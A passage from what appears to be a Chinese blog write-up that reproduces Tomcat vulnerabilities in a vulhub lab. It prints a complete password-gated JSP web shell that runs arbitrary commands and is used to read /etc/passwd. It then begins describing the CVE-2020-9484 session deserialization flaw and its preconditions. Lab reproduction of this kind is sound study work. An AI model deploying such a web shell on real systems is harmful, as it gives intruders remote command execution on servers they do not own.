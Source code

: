 ![](https://mmbiz.qpic.cn/mmbiz_png/9bOzaictich6TJV0rclZlxskw28fUAeg2LK7tia5oU99xAKQfeQNAcDtNPvDOpnN93fgUOarQN7g7yNxFvz6DV4ag/640?wx_fmt=png&from=appmsg "")  
  
shell的内容  
```
<%

    if("b".equals(request.getParameter("pwd"))){

        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();

        int a = -1;

        byte[] b = new byte[2048];

        out.print("<pre>");

        while((a=in.read(b))!=-1){

            out.println(new String(b));

        }

        out.print("</pre>");

    }

%>

```  
  
访问刚刚上传的shell.jsp文件，尝试查看/etc/passwd  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9bOzaictich6TJV0rclZlxskw28fUAeg2LGnxWqnsOQKJyicJjgiaWDAezonhW956GNxwlhAnHXAn9ZWRYJrlUHngQ/640?wx_fmt=png&from=appmsg "")  
  
复现成功  
### 总结  
  
需要手动更改tomcat 的配置，默认配置是没有漏洞的，所以觉的这个漏洞在真实环境应该是没有太多用武之地的，另外令我感到疑惑的是，我查了很多文章和资料，都说这个漏洞的范围是Tomcat 7.0.0 - 7.0.81,但是我在vulhub上面下载的靶机tomcat版本确是8.5.19  这就很离谱了，仍然复现成功，有知道这是为什么的师傅可以指教我一下。  
## Tomcat Session反序列化 （CVE-2020-9484）  
### 漏洞介绍  
  
这个漏洞本质上是基于Tomcat session持久化的一个漏洞，Tomcat 自带session管理功能，可以将session对象进行序列化存储到文件或者数据库中，当服务器崩溃或者宕机重启之后仍然可以从磁盘或者数据库中恢复session对象，存放在session中的对象必须要实现java.io.Serializable接口，因为在session进行持久化的时候，需要对session对象进行序列化和反序列化，这也就造成了Tomcat 反序列化漏洞  
### 利用条件  
  
成功利用此漏洞需要同时满足以下4个条件:  
- 攻击者能够控制服务器上文件的内容和文件名称  
  